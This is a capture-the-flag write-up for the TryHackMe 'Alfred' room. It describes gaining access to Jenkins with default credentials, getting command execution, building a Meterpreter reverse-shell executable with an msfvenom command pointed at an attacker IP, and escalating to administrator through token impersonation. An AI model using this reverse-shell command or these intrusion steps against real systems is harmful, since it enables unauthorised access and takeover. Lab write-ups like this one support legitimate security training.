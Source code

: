 ```yaml
---
layout: post
title: THM Alfred
---
```


This is a write-up for the machine [Alfred](https://tryhackme.com/room/alfred) from [tryhackme](https://tryhackme.com).

<!-- MarkdownTOC -->

- [Initial Access](#initial-access)
- [Switching Shells](#switching-shells)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->

## Initial Access

We run the usual nmap scanner and find:

- Port 80 http.
- Port 8080 http.
- Port 3389 rdp.

If we connect to the server in port 80 we can see

![Wayne](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf1.png)

Nothing seems too interesting and a `gobuster` scan doesn't find anything useful.

In port 8080 we have a `jenkins` server.

![jenikins](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf2.png)

We try to log in with the credentials `admin:admin` and got access to the `jenkins` control panel. From here we can move to configure tab, under project options and we find a field to write commands. Using it with this payload we gain a shell on the system.

![build](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf3.png)

![shell](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf4.png)

From here we can grab the user flag.

## Switching Shells

Once we are on the system we are going to switch to a `meterpreter` shell to make the privilege escalation easier.

This is the process we follow, we create a reverse shell executable with `msfvenom`, with the command

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.23.211 LPORT=444 -f exe -o metshell.exe
```

Set the handler in metasploit. Use `exploit/multi/handler` and configure the options

![set handler](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf5.png)

We transfer the shell executable created with `msfvenom` to the windows machine and execute it gaining a `meterpreter` shell.

## Privilege Escalation

The technique we are going to use to elevate privileges in the machine is called token impersonation.

First we check the privileges we have in this account using the command `whoami/priv`

![priv](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf6.png)

The `SeDebugPrivileged` and `SeImpersonatePrivileges` are enabled. We use the `incognito` module to exploit the vulnerability. We use the command `use incognito` to load the module and we check the available tokens with `list_tokens -g`

![tokens](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf7.png)

The `BUILTIN\Administrator` token is available, to impersonate it we run

![impersonate](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf8.png)

We have a elevated privileges but, by the way `windows` handles the permissions, using the primary tokens of the process to determine what they can do or cannot do, we need to migrate to a process with the right permissions. The safest process to pick is the `services.exe`. We list the processes and migrate to the one mentioned.

![migrate](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf9.png)

Now we have complete access and can read the root flag.